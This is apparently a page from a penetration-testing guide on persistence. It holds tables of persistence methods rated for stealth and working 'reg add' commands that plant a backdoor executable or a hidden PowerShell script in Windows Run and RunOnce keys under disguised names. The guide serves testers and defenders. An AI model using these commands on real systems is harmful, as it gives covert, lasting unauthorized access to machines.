 # Persistence and Backdoors

Advanced techniques for maintaining long-term access to compromised systems during authorized penetration testing.

## Overview

Persistence mechanisms allow maintaining access to compromised systems across reboots, user sessions, and security updates. Understanding these techniques is crucial for comprehensive penetration testing and for defenders to identify and prevent unauthorized persistence.

## Persistence Categories

### System-Level Persistence

| Method | Platform | Stealth Level | Persistence Level |
|--------|----------|---------------|------------------|
| **Service creation** | Windows/Linux | Medium | High |
| **Scheduled tasks** | Windows/Linux | Medium | High |
| **Registry modifications** | Windows | High | Medium |
| **Startup scripts** | Linux | Low | High |

### User-Level Persistence

| Method | Platform | Detection Difficulty | Maintenance |
|--------|----------|---------------------|-------------|
| **SSH keys** | Linux/macOS | Low | Easy |
| **Shell profiles** | Unix-like | Medium | Easy |
| **Browser extensions** | Cross-platform | High | Medium |
| **Application plugins** | Cross-platform | High | Hard |

## Windows Persistence Techniques

### Registry-Based Persistence

#### Run Keys
```powershell
# Current user run key
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "UpdaterService" /t REG_SZ /d "C:\Windows\System32\backdoor.exe"

# Local machine run key (requires admin)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdater" /t REG_SZ /d "C:\Windows\System32\backdoor.exe"

# Run once keys
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v "InitialSetup" /t REG_SZ /d "powershell.exe -WindowStyle Hidden -File C:\temp\init.ps1"
```
